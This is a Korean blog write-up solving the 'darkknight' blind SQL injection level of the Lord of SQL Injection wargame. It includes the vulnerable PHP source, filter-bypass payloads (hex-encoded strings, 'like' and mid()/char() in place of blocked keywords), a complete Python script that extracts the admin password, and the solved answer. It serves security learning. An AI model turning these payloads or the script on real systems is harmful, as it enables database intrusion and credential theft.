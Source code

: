 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkknight 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 뭔가 쓸데없이 오타도 많이내고, 뭔가 자잘한 삽질을 많이 한 문제이다.  

잠을 제대로 못자서 그런건지 바보같은 삽질을 했다.  

`darkknight` 라는 문제인데, 얘도 `Blind SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='' and no=
---------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

이번엔 `ascii`도 사용을 못하고 `'`도 사용할 수 없다.  

그럼 쿼리문에서 사용하는 `id = 'admin'`이라는 문자를 사용할 수 없다.  

이 문제에 대해서는 금방 답을 찾았다.  

바로 `hex` 값을 이용하는 것이다.  

`id = 'admin'` 대신 `id = 0x61646d696e`를 입력해도 같은 결과를 얻을 수 있다.  

그럼 `admin`의 `pw`의 길이를 구하는 쿼리는 아래와 같이 완성된다.  

```
?pw=1&no=0 or id like 0x61646d696e and length(pw) like 1
```

문제는 `pw`를 한 글자 씩 알아낼 때 이다.  

`'`를 사용할 수 없으므로, `mid` 함수를 통해 `pw`를 한 글자 씩 뽑는다 하더라도 비교를 할 수가 없다.  

처음에는 MySQL에 있는 `hex` 함수를 사용할까 했다.  

여기서 삽질한게, `hex`는 `10진수를 16진수 값으로` 혹은 `16진수를 10진수 값으로` 바꾸어주는 함수인데, 나는 이걸 알고있었는데도 `16진수 값을 입력하면 비교가 되겠지!` 하고 생각했다.  

추출되는 값은 `char` 형태의 문자기 때문에 당연히 비교할 수 없다.  

그 다음에는 `char` 함수를 사용하는 것을 생각했다.  

여기서 두번째 삽질을 했는데, `char` 함수의 인자는 `10진수 숫자`가 들어가야 한다.  

근데 코드를 이 전에 풀었던 코드를 가져와 살짝만 수정해서 사용하다보니, 파이썬 코드에서 `chr(i)`를 쿼리의 `char` 함수의 인자로 넣어주고 있었다.  

문제가 안풀리길래 `도대체 왜지...` 이러다가 쿼리를 출력 해 보고서야 깨달았다.  

쨌든 `pw`를 구하는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1&no=0 or id like 0x61646d696e and mid(pw, 1, 1) like char(48)
```

우여곡절 끝에 완성된 코드는 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1&no=0 or id like 0x61646d696e and length(pw) like " + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1&no=0 or id like 0x61646d696e and mid(pw, " + str(j) + ", 1) like char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

드디어 제대로 된 결과를 얻을 수 있었다.  

쓸데없는 삽질 후에 얻은 값진 `admin`의 `pw`이다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0B
[+] Found 3 : 0B7
[+] Found 4 : 0B70
[+] Found 5 : 0B70E
[+] Found 6 : 0B70EA
[+] Found 7 : 0B70EA1
[+] Found 8 : 0B70EA1F
[+] Found password :  0B70EA1F
[+] End
```

알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=0b70ea1f
```

```php
------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=
------------------------------------------------------------------------------------

DARKKNIGHT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

`DARKKNIGHT Clear!!`